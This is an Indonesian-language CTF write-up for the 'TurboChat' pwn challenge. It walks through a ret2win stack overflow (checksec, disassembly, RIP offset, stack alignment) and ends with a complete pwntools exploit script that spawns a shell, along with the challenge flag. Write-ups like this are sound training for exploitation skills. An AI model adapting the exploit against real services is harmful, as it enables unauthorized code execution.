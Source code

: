 # TurboChat: Development
>I've create some chat service, but the main fiture is not done yet. However the server is already up and you can try it to test your connection.
```console
nc 103.167.136.89 10021
```

1. Pada challenge ini, kita diberikan sebuah binary file dengan arsitektur 64 bit dan tidak di strip.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/09b3456f-0e48-4dae-ba44-a96325cc4810)


2. Langsung saja kita cek binary protectionsnya:

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/02b94d62-4c72-481c-b18e-4d39453943b3)


3. Diberikan proteksi yang sama seperti challenge yang sebelumnya. Namun kali ini saya tidak men-decompile binary file, saya meng-disass binary filenya.
4. Mengingat tidak di strip, maka kita dapat mengecek semua nama fungsi pada binary file:

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/a6827efe-ef49-4e1d-a2b4-674027ae663f)


5. Terdapat fungsi win(), asumsi saya disini konsep pwn kali ini adalah ret2win.
6. Untuk memastikan hal ini, langsung saja kita disass fungsi win():

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/80c7b9ff-e2ed-4e1c-b9e3-814f923214de) 

7. Meskipun tidak terbaca dengan jelas apakah terdapat strings "/bin/sh" yang digunakan pada argumen fungsi system(), akan tetapi disini saya cukup malas untuk mendecompile binary file.
8. Maka langsung saja saya mencari RIP offset lalu loncat ke fungsi win() , jika tidak mendapatkan shell berarti kita harus melakukan sedikit ROP.

##### NOTES: Dengan berhasil mendapatkan segmentation fault dan mendapatkan offset yang tepat pada RIP, maka kita dapat mengontrol next address yang akan dipanggil di stack.

#### GETTING RIP OFFSET 

9. Untuk mendapatkan offsetnya saya mengirim 1024 bytes menggunakan gdb-peda untuk mendapatkan segmentation fault.
10. Setelah SIGSEGV didapat, saya menjalankan pattern search untuk melihat offset pada RSP.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/ca35ce49-e859-48c7-a607-5a465641b227)


11. Tidak lupa untuk menambahkan ret gadget setelah padding dengan tujuan untuk melakukan stack alignment.
12. Berikut adalah solver yang saya gunakan:
    
```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

padding = 40 # offset RIP 

p = flat([
    asm('nop') * padding,
    0x000000000040101a, #  stack align - ret addr
    elf.sym['win'] 
])

sh.sendline(b'1')
sh.sendline(p)
sh.interactive() # get shell
```

13. Saatnya kita tes di local terlebih dahulu:

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/ed0ac567-b962-4732-8f0e-531498ef38b5)


14. Shell berhasil didapat! Langsung saja kita send script remotely.

![image](https://github.com/Valcar-ies/Writeup-CTF-Foresty-Hacker-Class/assets/84186470/dc439806-1cf9-4a5a-a29a-dc88a4a7fdd6) 


Flag yang didapat :
```console
ForestyHC{ez_ret2win_n_stack_alignment_just_to_remember_2adf8a}
```

